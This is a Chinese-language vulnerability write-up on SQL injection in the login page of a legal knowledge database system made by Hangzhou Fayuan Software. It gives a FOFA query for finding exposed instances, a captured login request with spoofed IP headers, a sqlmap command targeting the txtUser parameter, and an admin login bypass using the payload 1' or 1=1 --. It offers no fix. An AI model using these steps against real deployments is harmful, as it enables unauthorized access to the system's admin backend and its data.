 # 杭州法源软件 法律知识数据库系统 SQL注入漏洞

## 漏洞描述

杭州法源软件开发有限公司开发的实践教学平台系统下的法律知识数据库系统登录前台存在通用SQLi漏洞

## 漏洞影响

> [!NOTE]
>
> 杭州法源软件 法律知识数据库系统

## FOFA

> [!NOTE]
>
> icon_hash="2018105215" || title="实践教学平台 - 杭州法源软件开发有限公司"

## 漏洞复现

进入页面如下

![](resource/杭州法源软件-法律知识数据库系统-SQL注入漏洞/media/1.png)

出现漏洞的Url为

```
http://xxxxxxx/JusRepos/ui/login.aspx
```

![](resource/杭州法源软件-法律知识数据库系统-SQL注入漏洞/media/2.png)

抓取登录的请求包

```
POST /JusRepos/ui/login.aspx HTTP/1.1
Host: xxx.xxx.xxx.xxxx
Content-Length: 362
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: ASP.NET_SessionId=0upclbweiokwx4qnkpfzumir
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=%2FwEPDwULLTE4NTUyMzg5NDNkZBLjR6E85W4xvkheqS5g7gOsMdeop3Xfh1BwnTSCbV7z&__VIEWSTATEGENERATOR=E3BBEDB7&__EVENTVALIDATION=%2FwEdAATFHpXckaPEvZEyN%2BNhIQGTDFTzKcXJqLg%2BOeJ6QAEa2jPSlu16Yx4QbiDU%2BdddK1MwoKxxc3z27YmfD4jI4gVsV9%2FpN02jZyPKj4JeL7G5UVenPtL%2FK1en7XvhZG5vyHk%3D&txtUser=admin&txtPwd=123&btnSub=%E7%99%BB%E5%BD%95
```

其中注入的参数为 POST数据中的 **txtUser** 参数, 保存为文件使用 Sqlmap跑一下

```
sqlmap -r sql.txt -p txtUser
```

![](resource/杭州法源软件-法律知识数据库系统-SQL注入漏洞/media/3.png)

同时还存在着万能密码可以直接登录后台

```
user: 1' or 1=1 --
pass: peiqi
```

![](resource/杭州法源软件-法律知识数据库系统-SQL注入漏洞/media/4.png)